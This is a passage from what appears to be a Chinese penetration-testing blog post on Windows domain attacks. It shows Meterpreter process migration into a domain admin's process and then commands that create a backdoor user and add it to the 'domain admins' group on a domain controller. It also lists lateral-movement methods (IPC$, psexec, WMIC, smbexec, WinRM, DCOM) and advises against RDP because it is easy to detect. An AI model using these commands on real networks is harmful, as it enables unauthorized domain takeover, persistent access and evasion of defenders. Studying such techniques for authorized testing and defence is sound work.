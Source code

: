 

如果查找到域管理员进行，我们可以使用migrate命令迁移到该进程，这样，我们就获取到域管理员权限了。迁移到该进程后，我们可以执行以下命令创建用户，并将用户添加到域管理员组中



```
#迁移到管理员进程      
migrate 2912       
#Shell下创建用户并添加到域管理员组中      
net user test2 root@123 /add /domain      
net group "domain admins" test2 /add /domain       
#meterpreter下创建用户并添加到域管理员组中,-h参数跟的是域控ip      
add_user test3  root@123 -h 192.168.10.131      1
add_group_user "domain admins" test3 -h 192.168.10.131
```




![](https://img-blog.csdnimg.cn/20200214170333428.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



![](https://img-blog.csdnimg.cn/20200214170421237.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



也可以直接在meterpreter下创建用户并添加到域管理员组中



![](https://img-blog.csdnimg.cn/20200214170435799.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



模拟域管理员

------



当我们获取到域管理员账号和明文密码后，我们可以有以下方式模拟域管理员：



*   RDP远程连接：普通账号即可，但是动静大，容易被发现，不到万不得已最好不要远程连接。

*   IPC$远程连接：需管理员组内账号，对方主机需开启IPC$共享，连接成功后执行at、tasklist、schtasks等命令可获取权限。传送门：[IPC$共享和其他共享(C$、D$、Admin$)](https://blog.csdn.net/qq_36119192/article/details/83143354 "IPC$共享和其他共享(C$、D$、Admin$)")

*   psexec远程连接：需管理员组内账号，对方主机需开启admin$共享，传送门：[psexec工具使用浅析(admin$)](https://blog.csdn.net/qq_36119192/article/details/103614211 "psexec工具使用浅析(admin$)")

*   WMIC远程连接：需管理员组内账号，对方主机需开启admin$共享，传送门：[WMIC使用浅析](https://blog.csdn.net/qq_36119192/article/details/102984779 "WMIC使用浅析")

*   smbexec远程连接：需管理员组内账号，对方主机需开启C$共享，传送门：[smbexec的使用(c$共享)](https://blog.csdn.net/qq_36119192/article/details/104147068 "smbexec的使用(c$共享)")

*   WinRM远程连接：需管理员组内账号，对方主机需开启WinRM服务，传送门：[WinRM远程管理工具的使用](https://xie1997.blog.csdn.net/article/details/105122945 "WinRM远程管理工具的使用")

*   DCOM远程连接：需管理员组内账号，传送门：DCOM的使用
